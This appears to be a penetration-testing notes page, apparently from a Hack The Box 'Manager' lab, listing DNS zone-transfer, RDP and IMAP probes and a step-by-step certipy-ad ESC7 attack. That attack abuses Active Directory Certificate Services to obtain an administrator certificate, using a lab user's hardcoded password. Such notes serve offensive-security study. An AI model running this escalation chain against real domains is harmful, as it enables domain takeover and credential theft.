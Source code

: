 ```
dig @$IP axfr internal
```

```
dig ANY @<DNS_IP> <DOMAIN> 
```
### RDP 
Maybe we can see credentials 
```
rdesktop internal
```

### IMAP

Likely need valid credentials before connection
```
telnet 192.168.236.140 143
```

### Certipy
[Reference](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/)
Search for vulnerable active directory certificates / services on Kali
```
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
```

#### ESC7 Vuln Exploit with Certipy

Add officer raven to be able to manage ca's

```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven
```

Enable sub-ca template
```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

Set upn to administrator and save the private key 

```
certipy-ad req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
```

Now we can issue a certificate because we are an officer of the ca

```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request <NUMBER of PRIVATE KEY>
```

Retrieve the certificate administrator.pfx
```
certipy-ad req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve <NUMBER of PRIVATE KEY>
```

